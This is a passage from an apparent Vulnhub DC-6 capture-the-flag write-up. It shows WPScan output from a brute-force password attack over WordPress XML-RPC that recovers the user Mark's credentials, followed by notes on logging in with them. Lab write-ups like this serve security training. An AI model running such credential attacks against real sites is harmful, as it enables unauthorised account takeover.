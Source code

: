 ```bash
 | Version: 2.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://wordy/wp-content/themes/twentyseventeen/style.css?ver=5.1.1, Match: 'Version: 2.1'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 5 user/s
[SUCCESS] - mark / helpdesk01                                                                                                                                                                                                              
Trying sarah / !lak019b Time: 00:03:38 <===============================================================================================================================                             > (12547 / 15215) 82.46%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mark, Password: helpdesk01

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Mar 27 19:41:21 2023
[+] Requests Done: 12720
[+] Cached Requests: 5
[+] Data Sent: 6.222 MB
[+] Data Received: 7.739 MB
[+] Memory used: 299.957 MB
[+] Elapsed time: 00:03:46

```
So, we have found credentials for Mark
`mark:helpdesk01`

So let's signin with Mark in WordPress.
![Image](/assets/img/WriteUp/Vulnhub/DC6/Pasted image 20230327204711.png){: width="700" height="400" }

Enter the credentials and press `Log In`, wait for it.
![Image](/assets/img/WriteUp/Vulnhub/DC6/Pasted image 20230327204843.png){: width="700" height="400" }

We are in WordPress as Mark. Now let's see what we can do.
![Image](/assets/img/WriteUp/Vulnhub/DC6/Pasted image 20230327205236.png){: width="700" height="400" }
